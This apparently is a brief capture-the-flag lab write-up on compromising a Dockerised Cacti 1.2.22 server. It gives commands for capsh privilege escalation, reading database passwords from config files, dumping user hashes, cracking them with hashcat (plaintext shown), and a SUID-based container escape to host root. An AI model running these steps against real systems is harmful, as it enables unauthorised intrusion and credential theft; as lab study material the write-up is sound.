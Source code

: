 
# The http server uses cacti 1.2.22 which has [CVE](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)  

# the machine runs on docker, which has a privesc /sbin/capsh

```shell
/sbin/capsh --gid=0 --uid=0 --
```
# found mysql credentials on /var/www/html/include/config.php

```shell
/var/www/html/include/config.php:#$rdatabase_password = 'cactiuser';
/var/www/html/include/config.php:$database_password = 'root';
/var/www/html/lib/database.php:					$password = $value;
/var/www/html/lib/database.php:		$password = $database_password;

```

# found ssh credentials
```shell
mysql -h db -u root -proot cacti -e 'select * from user_auth;'
```
# cracked the password using hashcat
```shell
marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

```shell
hashcat -m 3200 -a 0 pass.txt /usr/share/wordlists/rockyou.txt --show
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

```

# Privesc CVE, did not work 
https://github.blog/security/vulnerability-research/privilege-escalation-polkit-root-on-linux-with-bug/

# The machine hosted on docker is mounted from the host machine, found it using mount command



> Created SUID file on /tmp using the root user on docker 

```shell
cd /tmp
touch sh
chmod 4777 sh 
<docker-machine-path>/tmp/sh -p

```


> gained root access on the host machine

